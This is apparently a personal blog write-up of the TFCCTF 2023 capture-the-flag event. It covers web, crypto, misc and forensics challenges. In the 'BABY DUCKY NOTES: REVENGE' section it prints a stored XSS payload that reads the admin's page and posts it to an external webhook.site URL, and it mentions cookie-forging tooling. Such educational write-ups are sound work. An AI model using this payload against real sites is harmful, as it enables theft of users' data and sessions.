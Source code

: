 ```yaml
---
title: "TFCCTF 2023 Writeup"
date: 2023-07-30T09:16:29-07:00
description: The UIUCTF 2023 Writeup. Two web challenges, one crypto
images:
  - images/2023-07-30/TFCCTF-2023.png
tags:
  - ctf
type: post
---
```


[The Few Chosen](https://ctf.thefewchosen.com/) hosted their third annual Capture The Flag (CTF) event. A lot of teams participated. It was very interesting and had a lot of solving them. To me, this was a great educational CTF and beginner friendly.


### web/BABY DUCKY NOTES
* solved
* solves: 443
* description: Quack quack! Try and huack me!

This is a note taking web app. Users can view other people's posts but posts can be hidden. The flag is in the `admin`'s first post. This one is easy since the admin post is not hidden. Simply sign up and view the `admin`'s post 

```python
    query(con, f''' 
    INSERT INTO posts (
        user_id,
        title,
        content,
        hidden
        ) VALUES (
            1,
            'Here is a ducky flag!',
            '{os.environ.get("FLAG")}',
            0
    );
    ''')
```

{{< figure
    src="/images/2023-07-30/ducky-1.png"
    alt="A screenshot of the BABY DUCKY NOTES challenge"
>}}

Then we get the flag `TFCCTF{Adm1n_l0St_h1s_m1nd!}`

### web/BABY DUCKY NOTES: REVENGE
* solved
* solves: 175
* description: Quack quack! Try and huack me! Again!

The challenge has patched the previous issue and made the post hidden. I tried to see if there was a way to do SQL injection, no luck. I tried to see if I can forge the cookie to pretend I was the `admin`. I found [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) that can fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys. This time the secret key is random so I couldn't forge it. It was fun to play around with the idea.

```python
app.secret_key = os.urandom(30).hex()
```

The app has a way to report a user and a bot will visit that user's post page. This can be used to our advantages. If we can somehow xss my own user's page then I can navigate to admin's own page to steal the flag.

```html
<p> {{post.get('content') | safe}} </p>
```
The usage of `safe` means that Flask will not sanitize the post content which allows us to XSS. This is my payload. It navigates to admin's page and relay the HTML response to the webhook site in the body for me.

```html
<script>
  fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(res => {
    fetch('https://webhook.site/f87a15ba-36e1-4b45-a310-53dd5247a133', {method: 'POST', body: res});
  })
</script>
```

{{<figure
    src="/images/2023-07-30/ducky-2.png"
    alt="A screenshot of the response in webhook with flag in the body"
>}}

Then we get the flag `TFCCTF{Ev3ry_duCk_kn0w5_xSs!}`


### crypto/MAYDAY
* solved
* solves: 651
* description: We are sinking! The nearest ship got our SOS call, but they replied in pure gobbledygook! Are ye savvy enough to decode the message, or will we be sleepin' with the fish tonight? All hands on deck!

The message reads

```
Whiskey Hotel Four Tango Dash Alpha Romeo Three Dash Yankee Oscar Uniform Dash Sierra One November Kilo India November Golf Dash Four Bravo Zero Uniform Seven
```

This is the phonetic spelling. Just change dash and number words to `-` and numbers, and first letter of each word. You get the flag `TFCTF{WH4T-AR3-YOU-S1NKING-4B0U7}`

I found out that there is a website that for this decoding: https://cryptii.com/. Select "Spelling alphabets". A pretty cool tool. It seems similar to cyberchef.


### misc/Discord Shenanigans V3
* solved
* solves: 146
* description: Oh, look who's back for more chaotic fun! The annual wild ride of DISCORD SHENANIGANS V3 is live, and this time we're serving a delicious dish of digital disorder, courtesy of our mischievous Discord bot. For those with a discerning eye and a knack for unscrambling the scrambled, this game is your pixelated playground. The flag, you ask? Well, it's tucked away in a place that's right in front of you, yet often overlooked. Seek the unseen, unravel the unexpected, and let the shenanigans begin!

The flag was in the discord bot's profile picture. Open in a new tab to see the flag.

{{<figure
    src="/images/2023-07-30/discord.png"
    alt="The discord bot's profile picture with the flag"
    width="20%"
>}}


### forensics/DOWN BAD
* not solved
* solves: 238
* description: The flag is right there!

You get a png file but cannot be opened. It seems like something is wrong with the file. Using `exiftool` does not tell me much. It says it was made with `http://www.pdf-tools.com` so I wasted sometime to see if you can convert png to pdf or vise versa.

Use `binwalk` says it's a PNG and Zlib compressed. All PNG are Zlib compressed so looks like there are not hidden file inside the image.

Use `pngcheck` to see what's wrong.

```bash
➜  DOWN-BAD pngcheck -c down_bad.png
down_bad.png  CRC error in chunk IHDR (computed 1d9c52c0, expected a9d5455b)
ERROR: down_bad.png
```

After correctly the CRC, the image is showing but does not show the flag.

{{< figure
    src="/images/2023-07-30/down_bad_fixed.png"
    alt="The down bad image after fixing CRC"
    width="50%"
>}}

I tried a couple of other tools, `strings`, `stegsolve` but nothing turned out to be useful.

After the event, I found out, instead of fixing the CRC, we should be fixing the height to match the CRC. CRC is calculate based on header information. So we can find out the original height by brute forcing CRC check.

I found this [script: png-unhide](https://github.com/ryanking13/png-unhide) later. It detects the real height and fix it for you.

```bash
➜  DOWN-BAD python3 checker.py down_bad-fixed.png
[*] Height in the IHDR: 0x490
[*] Real Height: 0x540
[!!] Wrong size in the IHDR
Automatically fix the IHDR? (Y/N)y
[*] Fixed file saved to down_bad-fixed_fixed.png
```

Someone also mentioned https://fotoforensics.com/ in the discord chat where you can see hidden rows in a file. It is a nice tool.

This challenge reminded of the `papapa` from Google's 2023 CTF. Both are changing the dimension to find out the true size of the image. I might look into the actual spec of both PNG and JPEG later. 



### crypto/DIZZY
* not solved
* solves: 411
* description: Embark on 'Dizzy', a carousel ride through cryptography! This warmup challenge spins you around the basics of ciphers and keys. Sharpen your mind, find the flag, and remember - in crypto, it's fun to get a little dizzy!

Message is: 
```
T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24
```

I forgot about the super useful https://www.dcode.fr/ site that can help you guess the cipher for you. Putting the message in it guess the flag to be using "Letters Positions" `TFCCTF{th_chllng_mks_m_dzzy_;d}` but this is incorrect.

The letters positions encryption is straightforward. The word/string to be encoded is decomposed of characters/letters. For example: `T4` means `T` is in position `4`.

The actual message has 40 segments meaning 40 characters. `dcode` only returned 31 characters. We can write a simple script to decode this.

```python
cipher = 'T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24'.split()
flag = [''] * len(cipher)
for pair in cipher:
    char, pos = pair[0], int(pair[1:])
    flag[pos] = char

print(''.join(flag))
```

The script returns the flag `TFCCTF{th15_ch4ll3ng3_m4k3s_m3_d1zzy_;d}`

## Conclusion

This was a great CTF to me. The site aesthetics was great. The warmup challenges were great for beginner like me to ease into the event. Love see some other events for like this.
